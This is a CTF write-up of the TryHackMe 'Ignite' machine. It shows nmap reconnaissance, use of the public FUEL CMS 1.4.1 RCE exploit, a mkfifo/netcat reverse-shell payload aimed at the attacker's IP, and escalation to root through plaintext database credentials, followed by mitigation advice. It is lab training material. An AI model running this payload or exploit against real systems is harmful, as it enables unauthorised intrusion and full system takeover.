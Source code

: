 # **CTF Write-up: Ignite**

**Prepared by:** Nishanth Antony  
**Date:** September 1, 2025  
**Difficulty:** Easy  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

-----

## **1. Executive Summary**

This report outlines the steps taken to compromise the `Ignite` machine. The assessment successfully identified and exploited a known **Remote Code Execution (RCE)** vulnerability in the **FUEL CMS** platform. Initial access was gained as the `www-data` user, and privilege escalation to the `root` user was achieved by leveraging credentials found in a database configuration file. The full system compromise highlights critical misconfigurations related to vulnerable software and insecure credential management.

-----

## **2. Methodology**

The assessment followed a methodical approach to penetration testing:

1.  **Reconnaissance:** Enumeration of open ports, services, and web server information.
2.  **Initial Foothold:** Exploitation of a known vulnerability to gain a low-privileged shell.
3.  **Privilege Escalation:** Post-exploitation enumeration to find a path to the `root` user.
4.  **Reporting:** Documentation of all findings, including the commands used and their outputs.

-----

## **3. Findings and Exploitation**

### **3.1 Reconnaissance: Identifying Vulnerable Software**

The initial step was to perform a network scan to identify the running services and their versions.

**Command & Output:**

```bash
# Nmap 7.80 scan initiated Sun Jun 14 20:38:52 2020 as: nmap -sC -sV -T4 -A -oN ignite.nmap <target_ip>
...
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
...
|_http-title: Welcome to FUEL CMS
```

**Findings:** The Nmap scan revealed that port 80 was running a web server hosting **FUEL CMS**. The `robots.txt` file also provided a key piece of information, indicating the `/fuel/` directory.

### **3.2 Initial Access: Remote Code Execution (RCE)**

A search for known vulnerabilities for "FUEL CMS" using `searchsploit` immediately returned a result for a **Remote Code Execution (RCE)** vulnerability.

**Commands & Outputs:**

```bash
┌──(Nishanth㉿LAPTOP-4CC2EUBM)-[~]
╰─$ searchsploit fuel cms
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
fuelCMS 1.4.1 - Remote Code Execution                                                                                               | linux/webapps/47138.py
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
...
┌──(Nishanth㉿LAPTOP-4CC2EUBM)-[~]
╰─$ searchsploit -m linux/webapps/47138.py
...
Copied to: /twseptian/47138.py
```

The Python exploit script `47138.py` was downloaded. I used this script in conjunction with `Burp Suite` to inject a reverse shell payload.

**Commands & Outputs:**

  * **Netcat Listener:**

    ```bash
    ┌──(Nishanth㉿LAPTOP-4CC2EUBM)-[~]
    ╰─$ nc -lvnp 4444
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::4444
    Ncat: Listening on 0.0.0.0:4444
    ```

  * **RCE Exploit Payload:** I used the following reverse shell command as the payload for the Python script:

    ```
    rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc <your_ip_address> 4444 >/tmp/f
    ```

  * **Reverse Shell Connection:**

    ```
    Ncat: Connection from <target_ip>.
    Ncat: Connection from <target_ip>:47538.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    $ whoami
    www-data
    ```

**Result:** A low-privileged shell was obtained as the **`www-data`** user.

### **3.3 Privilege Escalation to `root`**

From the `www-data` shell, I began enumerating the file system to find a way to escalate privileges. The first goal was to find the user flag, which was located in `/home/www-data/flag.txt`.

**Commands & Outputs:**

```bash
www-data@ubuntu:/var/www/html$ cd /home/www-data
www-data@ubuntu:/home/www-data$ ls -la
...
-rw-r--r-- 1 root     root       34 Jul 26  2019 flag.txt
www-data@ubuntu:/home/www-data$ cat flag.txt
<redacted_flag>
```

To escalate to `root`, I investigated the web application's configuration files. I found a database configuration file, `database.php`, in the `fuel/application/config/` directory.

**Commands & Outputs:**

```bash
www-data@ubuntu:/var/www/html$ cat fuel/application/config/database.php
...
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
...
```

**Vulnerability:** The database configuration file contained plaintext credentials for the `root` user on the local system. This is a severe security misconfiguration.

**Exploitation:** The credentials `root:mememe` were used with the `su` command to switch to the `root` user.

**Commands & Outputs:**

```bash
www-data@ubuntu:/var/www/html$ su - root
su - root
Password: mememe
root@ubuntu:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# whoami
whoami
root
root@ubuntu:~# cd /root
root@ubuntu:~# ls -l
total 4
-rw-r--r-- 1 root root 34 Jul 26  2019 root.txt
root@ubuntu:~# cat root.txt
<redacted_flag>
```

**Result:** Full system compromise was achieved by leveraging the leaked `root` credentials.

-----

## **4. Mitigation Recommendations**

  * **Vulnerability Management:** The web server is running a version of **FUEL CMS (1.4.1)** that is known to be vulnerable to **RCE (CVE-2018-16763)**. The application should be immediately updated to a secure, patched version.
  * **Secure Credential Storage:** **Sensitive credentials, especially for the `root` user, should never be stored in plaintext within a web application's configuration files.** The database should use a separate, non-privileged user account.
  * **Principle of Least Privilege:** The web server process (`www-data`) should not have permissions to read files in the `/home/` directory or other sensitive locations. Permissions should be restricted to only what is necessary.
  * **Filesystem Security:** The `www-data` user's home directory should not be accessible to the `root` user in a way that allows a user to access flags, or any files with sensitive data.

